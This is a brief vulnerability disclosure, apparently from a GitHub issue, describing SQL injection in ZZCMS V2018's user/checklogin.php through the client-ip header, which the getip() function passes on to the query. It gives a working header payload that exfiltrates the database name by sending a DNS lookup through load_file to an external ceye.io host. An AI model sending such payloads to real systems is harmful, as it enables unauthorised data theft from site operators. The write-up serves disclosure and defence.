 ZZCMS V2018

SQL Injection

code: user\checklogin.php

Follow up this function：getip()

check_isip is a filter function,Follow up:

This is just a simple filter. It has nothing to do with it.

so there is SQL injection here.

At the time of landing,In HTTP head add this： client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.fvyr6w.ceye.io\abc'))))#

You can see that you have successfully obtained the Database name.
